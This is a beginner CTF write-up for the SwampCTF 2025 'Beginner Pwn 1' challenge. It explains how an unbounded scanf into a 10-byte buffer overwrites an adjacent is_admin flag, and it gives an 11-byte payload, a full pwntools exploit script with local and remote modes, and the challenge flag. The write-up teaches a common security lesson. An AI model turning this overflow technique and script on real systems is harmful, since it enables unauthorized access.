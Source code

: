 ```yaml
---
title: "Beginner Pwn 1 🧠 – Stack Corruption via Overflow (SwampCTF 2025)"
tags: [CTF, binary exploitation, buffer overflow, stack corruption, pwn]
---
```


# Beginner Pwn 1 🧠

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-SwampCTF%202025-purple)

> Are you really admin?
> This challenge serves as an introduction to pwn that new ctfers can use to grasp basic pwn concepts.

This challenge is a perfect illustration of how overflowing a local buffer on the stack can unintentionally alter adjacent variables — and grant access you're not supposed to have. 👀

## 📚 Table of Contents

- [Initial Analysis 🕵️](#initial-analysis-%EF%B8%8F)
- [The Vulnerability 💣](#the-vulnerability-)
- [Stack Layout Breakdown 📐](#stack-layout-breakdown-)
- [Exploitation 💥](#exploitation-)
- [Exploit Script 🧪](#exploit-script-)
- [Conclusion 🧠](#conclusion-)

## Initial Analysis 🕵️

### Checksec result

![image](https://github.com/user-attachments/assets/163935b6-3fea-47bc-88c5-92f47605b8d7)

- RELRO: Partial
- Stack Canary: ❌
- NX: ✅
- PIE: ❌

The program asks you for a `username`, prints a debug view of the stack, then checks if you're an `admin`. If you are, you can print the flag. Otherwise, you get denied.

![image](https://github.com/user-attachments/assets/9e606bd9-2d9a-4d67-87e0-f4647b7c649f)

There’s no authentication — only a **boolean check**:

```
bool is_admin = false;
char username[10];
...
scanf("%s", username);
...
if (is_admin == true) {
   print_flag();
}
```

But here's the issue: `scanf("%s", username)` **does not limit input size**. 

So if you type more than 10 bytes, you start **overwriting `is_admin`**, which is placed **after** `username` on the stack.

### Ghidra dump

![Ghidra dump](https://github.com/user-attachments/assets/422bce68-495a-48e3-9b61-1cc088faed50)

## The Vulnerability 💣

This is a classic **stack-based buffer overflow**:
- `username` has 10 bytes
- Input is not bounded
- `is_admin` is just a few bytes after `username`
- `scanf("%s", ...)` stops at null byte, but has no size restriction

By overflowing `username` with **more than 10 bytes**, you overwrite `is_admin` (a `bool`, usually 1 byte) — and any **non-zero value** will make the condition `if (is_admin)` true!

## Stack Layout Breakdown 📐

Looking at Ghidra:

```
char local_19[2];      // 'choice' input
char username[10];     // local_17 to local_f
bool is_admin          // local_d
```

So memory-wise:

```
| local_19[1] |
| local_19[0] |
| username[9] |
| username[8] |
|    ...      |
| username[0] |
| is_admin    | ← we want to corrupt this
```

## Exploitation 💥

The strategy is:

- Input more than 10 characters as your `username`
- Add **at least 1 non-zero byte after that**
- This byte lands into `is_admin`, setting it to a truthy value (`!= 0`)
- You bypass the admin check and print the flag

Simple payload:

```
AAAAAAAAAAA
```

Where:
- `A` * 10 fills `username`
- `A` n°11 goes into `is_admin`, making it true (ASCII 0x41)

## Exploit Script 🧪

```python
from pwn import *
import argparse
import sys

# Constants
OVERFLOW_INPUT = b"A" * 11  # 10 for username + 1 byte to set is_admin=true

def get_flag(io):
    """
    Send overflow input and extract flag.
    """
    io.sendline(OVERFLOW_INPUT)  # Overflow username + set is_admin = true
    io.recvuntil(b"flag? (y/n) ")
    io.sendline(b"y")

    # Try to extract the flag
    try:
        line = io.recvline(timeout=2)
        if b"swamp" in line.lower():
            print("[+] Flag:", line.decode().strip())
        else:
            print("[!] Unexpected output:", line.decode().strip())
    except EOFError:
        print("[-] Failed to receive flag output.")

def run_local(path):
    """
    Launch local binary process.
    """
    print(f"[*] Running locally: {path}")
    elf = ELF(path)
    context.binary = elf
    return process(path)

def run_remote(host, port):
    """
    Connect to remote service.
    """
    print(f"[*] Connecting to {host}:{port}")
    return remote(host, port)

def main():
    parser = argparse.ArgumentParser(description="SwampCTF - is_admin exploit")
    subparsers = parser.add_subparsers(dest="mode", required=True)

    # --local ./binary
    local_parser = subparsers.add_parser("local", help="Run exploit locally")
    local_parser.add_argument("binary", type=str, help="Path to local binary")

    # --remote
    remote_parser = subparsers.add_parser("remote", help="Run exploit remotely")
    remote_parser.add_argument("ip", type=str, help="Remote IP or hostname")
    remote_parser.add_argument("port", type=int, help="Remote port")

    args = parser.parse_args()

    # Setup target
    if args.mode == "local":
        io = run_local(args.binary)
    elif args.mode == "remote":
        io = run_remote(args.ip, args.port)
    else:
        print("[-] Unknown mode")
        sys.exit(1)

    get_flag(io)
    io.close()

if __name__ == "__main__":
    main()
```

![Flag displayed](https://github.com/user-attachments/assets/d29fc466-309f-40dd-b84b-1a87f1e58266)

`[+] Flag: Here is your flag! swampCTF{n0t_@11_5t@ck5_gr0w_d0wn}`

## Conclusion 🧠

This challenge demonstrates:

- How lack of input bounds (e.g. `scanf("%s")`) leads to overflows
- How local variable placement affects exploitability
- That even a single-byte overwrite can give admin access!

🔙 [Back to SwampCTF 2025 Writeups](../../)
